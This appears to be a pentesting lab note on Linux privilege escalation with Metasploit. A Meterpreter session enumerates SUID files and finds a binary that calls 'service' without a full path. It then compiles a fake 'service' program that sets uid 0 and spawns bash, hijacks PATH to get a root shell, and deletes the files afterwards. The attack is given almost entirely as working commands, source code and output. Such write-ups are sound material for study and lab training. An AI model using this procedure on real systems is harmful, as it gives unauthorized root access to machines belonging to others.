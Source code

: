 # C2 Frameworks

Search Tag(s): #post-exploitation #privilege-escalation #metasploit-framework #linux

## Metasploit

### 01 - Detect

```
meterpreter > run post/linux/gather/enum_system

[+] Info:
[+]     Debian GNU/Linux 6.0
[+]     Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
[+]     Module running as "user" user
..[omitted]..
[*] Setuid/setgid files stored in /root/.msf4/loot/20220523231150_default_10.10.225.219_linux.enum.syste_075325.txt
..[omitted]..

userware@hackware-os:~$ sudo cat /root/.msf4/loot/20220523231150_default_10.10.225.219_linux.enum.syste_075325.txt
..[omitted]..
/usr/local/bin/suid-env
/usr/local/bin/suid-env2
..[omitted]..
```

We use the `strings` command to look any readable functions that we can analyze.

```
meterpreter > execute -if strings -a "/usr/local/bin/suid-env"
Process 3284 created.
Channel 56 created.
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

This is the main problem here the `service apache2` start works but the point was it was not specified the full path. This is where the `$PATH` bash predefined variable for the shell environment that is useful for this situation.

### 02 - Exploit

We will compile our own version of `service.c` and re-define the `$PATH` variable.

```
meterpreter > mkdir exploit
Creating directory: exploit
meterpreter > cd exploit/
meterpreter > edit /tmp/service.c
#include <stdio.h>  
  
int main() {  
    setgid(0);  
    setuid(0);  
    system("/bin/bash");  
    return 0;  
}
meterpreter > execute -f gcc -a "/tmp/service.c -o /tmp/service"
Process 3325 created.
```

Spawn an interactive shell then append `export PATH=/tmp:$PATH` where the vulnerable SUID binary will be executed.

```
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 3330 created.
Channel 63 created.
export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
user@debian:~$ /usr/local/bin/suid-env
/usr/local/bin/suid-env
root@debian:~# id
id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:~#
```

### 03 - Cleanup

```
root@debian:~# exit
exit
exit
user@debian:~$ exit
exit
exit
meterpreter > rm /tmp/service /tmp/service.c
```